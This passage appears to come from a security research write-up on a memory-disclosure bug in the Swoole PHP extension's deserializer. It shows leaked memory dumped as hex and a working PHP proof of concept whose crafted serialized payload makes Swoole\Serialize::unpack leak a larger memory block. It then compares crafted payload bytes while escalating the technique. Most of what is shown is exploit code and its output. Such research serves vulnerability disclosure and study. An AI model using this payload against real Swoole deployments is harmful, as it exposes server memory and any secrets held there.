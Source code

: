 ```
7f000048f0c702bd7f0000400000000000000040b2c702bd7f00000614000002000000050200000200000060f0c7
02bd7f000070f0c702bd7f00004000000000000000c093c602bd7f00000614000003000000000100000300000020
f1c702bd7f0000400000000000000050b1c602bd7f000006140000030000004000000000000000c815c002bd7f00
00061400000300000080000000030000000000000000000000000000000000000000000000000000000000000000
00000080f1c702bd7f00000e02000003000000c8f0c702bd7f
[+] Size:
255%
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Playing a bit you can perform bigger leaks, like this one (24946 bytes):
```php

<?php
	$data = "e802ea7b02ea7b02227b0a010800737464436c617373018b0470726f7037130a010800737464436c617373018fc10037130a010800737464436c617373018ff6003713454f46";
	$obj = new \Swoole\Serialize();
	$sor = hex2bin($data);
	$ser = $obj->unpack($sor);
	echo "[+] Swoole Unserialized:\n";
	var_dump($ser);
	echo "[+] Memory Leaked:\n";
	$keys = key(get_object_vars($ser[1]));
	echo bin2hex($keys);
	echo "\n[+] Size: \n";
	echo strlen($keys);
?>
```

## 0x04 Getting even dirtier
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Let's try to change our seed ('`a:3:{i:123;s:4:"meow";i:123;R:1;i:1;O:8:"stdClass":1:{s:4:"prop";i:4919;}}`') for one with a bigger integer (0x41414141 == 1094795585) and compare them:


[4919 (0x1337)]<br>
e8 02 ea7b 02ea 7b 02 22 7b0a<br>
01 08 00 737464436c617373<br>
01 8b 04 70726f70 37130a <br>
01 08 00 737464436c617373 <br>
01 **8f** c1 00**3713**0a<br>
01 08 00 737464436c617373<br>
01 **8f** c1 00**3713**<br>
454f46<br>


[1094795585 (0x41414141)]<br>
e8 02 ea7b 02ea 7b 02 22 7b0a<br>
01 08 00 737464436c617373<br>
01 93 04 70726f70 414141410a<br>
01 08 00 737464436c617373<br>
01 **97** c1 00**41414141**0a<br>
01 08 00 737464436c617373<br>
01 **97** c1 00**41414141**<br>
454f46<br>
